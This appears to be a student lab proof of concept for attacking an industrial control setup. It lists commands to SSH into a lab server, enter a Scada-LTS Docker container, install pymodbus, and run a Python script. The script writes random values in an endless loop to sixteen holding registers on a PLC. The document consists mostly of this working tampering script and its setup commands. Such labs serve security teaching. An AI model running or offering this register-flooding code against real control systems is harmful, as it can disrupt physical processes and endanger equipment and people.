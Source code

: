 # Proof of concept
- Connect to the server
```
ssh -D 1080 mcsestudent@145.52.126.50
```
- Enter the Scada-LTS container with
```sh
sudo docker exec -it scadalts /bin/bash
```

- Install pip and [pymodbus](https://pypi.org/project/pymodbus/)
```sh
apt update && apt install python3-pip -y
pip install pymodbus
```

- Run the code. There is no `nano` or `vim` but we can use `echo` to write to a file.
```py
import random
from pymodbus.client import ModbusTcpClient

PLC_IP = "plc-zone1" # Replace with your PLC or Modbus server IP
REGISTER_START = 1000  # First holding register
NUM_REGISTERS = 16  # 32 bytes = 16 registers (each register = 2 bytes)

client = ModbusTcpClient(PLC_IP)

try:
    while True:
        # Generate 16 random values (each between 0 and 65535)
        values = [random.randint(0, 65535) for _ in range(NUM_REGISTERS)]

        # Write multiple registers at once
        response = client.write_registers(REGISTER_START, values)
        
        print(f"Overschreven registers {REGISTER_START} - {REGISTER_START + NUM_REGISTERS - 1} met waarden {values}")

except KeyboardInterrupt:
    print("Test gestopt.")
finally:
    client.close()
```
```sh
python3 test.py
```

![](img/random_modbus.png)
